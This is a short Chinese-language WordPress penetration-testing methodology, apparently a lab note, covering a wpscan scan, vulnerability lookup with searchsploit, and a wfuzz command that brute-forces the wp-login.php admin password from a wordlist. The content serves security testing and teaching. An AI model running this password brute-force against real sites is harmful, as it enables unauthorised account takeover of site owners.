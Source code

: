 # WordPress 测试方法论

## 0x1 扫描

使用工具：wpscan(Kali 自带)

*针对所有 Wordpress 网站的测试，首先都应该使用 wpscan 进行扫描：*

```
wpscan --url http://192.168.1.28/
```
扫描结果中中重点关注 WordPress 的版本？使用了什么 Plugin ？Plugin 版本是什么？

然后使用 searchsloit 来查询漏洞。


## 0x2 暴力破解

使用工具：Wfuzz(Kali 自带)

很多 WordPress 的漏洞都需要登录到后台才能利用，这里使用 Wfzuu 工具进行爆破：

```
# 按照实际情况调整-hh 参数
wfuzz -w /usr/share/wordlists/fast* -d "log=admin&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.1.1.1%2Fwp-admin%2F&testcookie=1"  -c --hh=3358 http://10.1.1.1/wp-login.php
```
参数解释：

- `-w` 指定字典
- `-d` POST 的数据
- `-c` 带颜色输出
- `--hh` 过滤掉响应包长度为3358字节的结果
